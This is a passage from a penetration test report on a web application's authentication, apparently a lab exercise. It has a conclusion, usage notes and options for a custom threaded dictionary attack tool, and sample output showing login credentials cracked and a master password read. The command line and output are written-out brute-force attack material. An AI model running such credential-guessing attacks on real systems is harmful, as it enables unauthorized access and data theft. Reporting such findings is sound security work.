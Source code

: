 ## 6. Conclusion

The penetration test successfully identified critical vulnerabilities in the web application's authentication system. The lack of brute force protection, combined with weak password policies, allowed for unauthorized access to the application and its protected resources.

The custom dictionary attack tool developed for this test proved highly effective, demonstrating the real-world risk posed by these vulnerabilities. The findings highlight the importance of implementing proper authentication controls and following security best practices.

By addressing the recommendations provided in this report, the organization can significantly improve the security posture of the web application and reduce the risk of unauthorized access and data breaches.

## Appendix A: Tool Documentation

### A.1 Dictionary Attack Tool Usage

```bash
python attack.py -u http://10.1.1.10:5002 -t 20 -v --test-creds
```

### A.2 Command Line Options

| Option | Description |
|--------|-------------|
| `-u, --url` | Target URL (default: http://10.1.1.10:5002) |
| `-t, --threads` | Number of threads to use (default: 20) |
| `-d, --delay` | Delay between requests in seconds (default: 0.1) |
| `-v, --verbose` | Enable verbose output |
| `--usernames` | Path to usernames wordlist (default: usernames.txt) |
| `--passwords` | Path to passwords wordlist (default: passwords.txt) |
| `--test-creds` | Test specific credentials (Nocky:1234) before running full attack |

### A.3 Sample Output

```
=== Starting ThreadPool Dictionary Attack ===
Time: 2023-06-15 14:30:45
Target URL: http://10.1.1.10:5002
Threads: 20
Delay: 0.1 seconds
Verbose: Yes
==============================================

[*] Testing specific credentials: Nocky:1234
[!] SUCCESS! Valid credentials found: Nocky:1234
[+] Final URL: http://10.1.1.10:5002/dashboard
[*] Attempting to access protected resource: http://10.1.1.10:5002/show_password
[+] Successfully accessed protected resource!
[+] Found sensitive information: The master password is: SuperSecretP@ssw0rd
[+] Specific credentials test SUCCESSFUL: Nocky:1234
[+] Adding these credentials to the successful list

[*] Loaded 50 usernames and 200 passwords
[*] Starting ThreadPool dictionary attack with 50 usernames and 200 passwords
[*] Total combinations to try: 10000
[*] Using ThreadPoolExecutor with 20 workers
[*] Using form fields: username={username}, password={password}

```